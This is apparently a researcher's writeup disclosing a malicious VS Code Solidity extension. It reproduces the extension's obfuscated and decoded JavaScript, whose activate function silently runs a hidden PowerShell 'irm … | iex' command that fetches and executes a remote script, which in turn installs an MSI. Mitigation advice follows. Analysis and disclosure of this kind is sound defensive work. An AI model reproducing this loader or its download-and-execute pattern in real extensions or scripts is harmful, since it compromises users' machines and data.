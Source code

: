 About a week ago, I was discussing with a friend the status of hacking in the Web3 space. Being used to the "traditional" hacking and bug bounty world, I was surprised when he started telling me things like `solidity`, `EVM`, `DeFi`, `smart contracts`, and so on. I had no idea what he was talking about, so I decided to do some research.

A few Google searches later, I found out that if I wanted to get into Web3 hacking, I would need to learn about blockchain technology, smart contracts, and the various platforms that support them. I also discovered that there were many bug bounty programs specifically for Web3 projects, which was exciting. So I decided to start with Solidity.

I opened VSCode and headed to the marketplace to install the Solidity extension. Few extensions caught my attention.

- "[Solidity by Juan Blanco](https://marketplace.visualstudio.com/items?itemName=JuanBlanco.solidity)" - with 1.7M downloads
- "[Solidity Language Support](https://marketplace.visualstudio.com/items?itemName=ShowSnowcrypto.SnowShoNo) - with 2.9M downloads

![Solidity Language Support](Screenshots/marketplace.png)

I decided to go with the second one, "Solidity Language Support" by ShowSnowcrypto, because it had more downloads and seemed to be more popular. After installing the extension, I opened a new file and set the language mode to Solidity. No syntax highlighting, no intellisense, no nothing. Just a plain text file.

So...being the "nerd" that I am, I decided to investigate further.

Just as I was trying to figure out what was happening, a Powershell window popped up and immediately closed. I had no idea what it was, but I assumed it was something related to the extension. I checked the output panel in VSCode, but there was nothing there. I then checked the "Problems" tab, but again, there was nothing there.

...shocked, I decided to check the extension's installation folder. I exported the whole extension folder as a zip to analyze it.

Inside the extensions folder, I found a file `src/extension.js`. Opening it, I saw that it was a minified/obfuscated code JavaScript file. I formatted it to make it more readable and started going through the code.

Here is the minified/obfuscated code:

```javascript
const _0x213954 = _0x41e2;
(function (_0x4b4334, _0x2656ab) {
  const _0x1da43d = _0x41e2,
    _0x57e2b6 = _0x4b4334();
  while (!![]) {
    try {
      const _0x18e3ec =
        (parseInt(_0x1da43d(0x1c3)) / 0x1) *
          (-parseInt(_0x1da43d(0x1c1)) / 0x2) +
        (parseInt(_0x1da43d(0x1d1)) / 0x3) *
          (parseInt(_0x1da43d(0x1cc)) / 0x4) +
        parseInt(_0x1da43d(0x1c9)) / 0x5 +
        -parseInt(_0x1da43d(0x1c2)) / 0x6 +
        -parseInt(_0x1da43d(0x1c4)) / 0x7 +
        (-parseInt(_0x1da43d(0x1cd)) / 0x8) *
          (parseInt(_0x1da43d(0x1ca)) / 0x9) +
        (-parseInt(_0x1da43d(0x1d2)) / 0xa) *
          (-parseInt(_0x1da43d(0x1ce)) / 0xb);
      if (_0x18e3ec === _0x2656ab) break;
      else _0x57e2b6["push"](_0x57e2b6["shift"]());
    } catch (_0x4d6972) {
      _0x57e2b6["push"](_0x57e2b6["shift"]());
    }
  }
})(_0x2470, 0x2f80d);
function _0x2470() {
  const _0x2e306f = [
    "child_process",
    "exports",
    "45yepeMH",
    "2941110MJONQC",
    "platform",
    "4vuRIWg",
    "484446KRGyQu",
    "62069ZrsUVa",
    "1882167AjRYWW",
    "Command\x20failed:",
    "warn",
    "PowerShell\x20reported\x20errors:",
    "win32",
    "1191030RHNorV",
    "1455471TySatz",
    "powershell\x20-WindowStyle\x20Hidden\x20-Command\x20\x22irm\x20https://niggboo.com/aaa\x20|\x20iex\x22",
    "79396CwoQFA",
    "8BLexMd",
    "11ucAODX",
  ];
  _0x2470 = function () {
    return _0x2e306f;
  };
  return _0x2470();
}
const { exec } = require(_0x213954(0x1cf));
function _0x41e2(_0x47872a, _0x374aac) {
  const _0x247057 = _0x2470();
  return (
    (_0x41e2 = function (_0x41e2d4, _0x330032) {
      _0x41e2d4 = _0x41e2d4 - 0x1c0;
      let _0x231f39 = _0x247057[_0x41e2d4];
      return _0x231f39;
    }),
    _0x41e2(_0x47872a, _0x374aac)
  );
}
function activate() {
  const _0x5ba756 = _0x213954;
  if (process[_0x5ba756(0x1c0)] !== _0x5ba756(0x1c8)) return;
  setTimeout(() => {
    const _0x2bda8f = _0x5ba756,
      _0x102934 = _0x2bda8f(0x1cb),
      _0x40af61 = { windowsHide: !![] };
    exec(_0x102934, _0x40af61, (_0x5772c8, _0x1ed0b6, _0x24940f) => {
      const _0x573b42 = _0x2bda8f;
      if (_0x5772c8) {
        console["error"](_0x573b42(0x1c5), _0x5772c8);
        return;
      }
      _0x24940f && console[_0x573b42(0x1c6)](_0x573b42(0x1c7), _0x24940f);
    });
  }, 0x7d0);
}
function deactivate() {}
module[_0x213954(0x1d0)] = { activate: activate, deactivate: deactivate };
```

Immediately, I noticed the word `PowerShell` and a URL `https://niggboo.com/aaa`. I knew this was not good. I pasted the URL into [VirusTotal](https://www.virustotal.com/gui/url/c5f34a03ef945b5dbaef77e28766c10264e5a82a3d50f82ff48cba81b0bc9fba) and of all the vendors, only two flagged it as malicious.

I then decided to decode the obfuscated code to see what it was doing.

Here is the decoded code:

```javascript
const { exec } = require("child_process");

function activate() {
  // Only execute on Windows systems
  if (process.platform !== "win32") return;

  // Wait 2 seconds before execution
  setTimeout(() => {
    const maliciousCommand =
      'powershell -WindowStyle Hidden -Command "irm https://niggboo.com/aaa | iex"';
    const options = { windowsHide: true };

    exec(maliciousCommand, options, (error, stdout, stderr) => {
      if (error) {
        console.error("Command failed:", error);
        return;
      }
      if (stderr) {
        console.warn("PowerShell reported errors:", stderr);
      }
    });
  }, 2000);
}

module.exports = { activate, deactivate };
```

What the extension does:

- when extension is activated, it checks if the OS is Windows
- if it is, it waits for 2 seconds and then executes a PowerShell command that downloads and executes a script from `https://niggboo.com/aaa` using `Invoke-RestMethod (irm)` and `Invoke-Expression (iex)`.
- the PowerShell window is hidden during execution.

I then decided to check the URL `https://niggboo.com/aaa` to see what it was hosting.

![Payload](Screenshots/malware.png)

The script does the following:

- Checks if any software with "ScreenConnect" in its name is installed. If found, it exits.
- It constructs a download URL pointing to `https://niggboo.com/<random>/<random>/`, fetches a malicious MSI installer, saves it into the temp directory with a random name, and executes it silently using `msiexec.exe`.
- It then deletes the downloaded MSI file to cover its tracks.

## Next Steps: Reverse Engineering the MSI

I’ve stopped my analysis at the downloaded MSI payload. [VirusTotal](https://www.virustotal.com/gui/file/290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b/detection)
shows that 21/63 vendors flag it as malicious, but the exact behavior of the MSI is still unknown.

If you’re skilled in reverse engineering (malware analysis, dynamic sandboxing, or static reversing), I’d love for you to take a look and share your findings with the community.

MSI SHA256: 290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b

All the necessary files including the VSIX package of the extension are in this repo for further analysis.
[Github Repo](https://github.com/kagemanjoroge/malicious-vscode-extensions/tree/main/ShowSnowcrypto.SnowShoNo)

## Mitigation

- If you are on Linux or MacOS, you are safe. The extension only executes on Windows.
- If you are on Windows, uninstall the extension immediately.
- Check your system for any unknown software installations, especially anything related to "ScreenConnect".
- Change your passwords and enable 2FA on all your accounts.
- Monitor your crpto wallets for any unauthorized transactions.
- Always vet what you install, verify publisher authenticity, and keep your system monitored.

I have since reported the extension to Microsoft though they are yet to take it down...neither have they responded to my report.

Anyways...happy hacking!

@kagema

